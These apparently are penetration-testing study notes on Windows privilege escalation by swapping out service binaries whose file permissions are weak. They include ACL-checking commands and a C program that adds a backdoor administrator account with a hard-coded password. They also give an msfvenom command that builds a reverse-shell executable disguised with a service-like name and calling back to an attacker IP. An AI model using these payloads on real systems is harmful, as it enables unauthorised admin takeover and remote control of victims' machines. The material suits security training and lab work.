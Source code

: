 Look for binaries not running in Windows or System32, as "of interest"

_In a bind shell or WinRM, this will get Permission Denied, must be used in an interactive logon such as RDP.

Check permissions on service binaries:

```
icacls ""
```

or

```
Get-ACL ""
```

Permissions list:

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

If we have Full or Write, we can replace the existing binary.

Create a C file such as: 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

If the user does not have ability to add users try a reverse shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.171 LPORT=4444 -f exe > EnterpriseServiceOptional.exe
```

Compile the binary (ensuring the right architecture is used):

```
x86_64-w64-mingw32-gcc adduser.c -o newbinary.exe
```
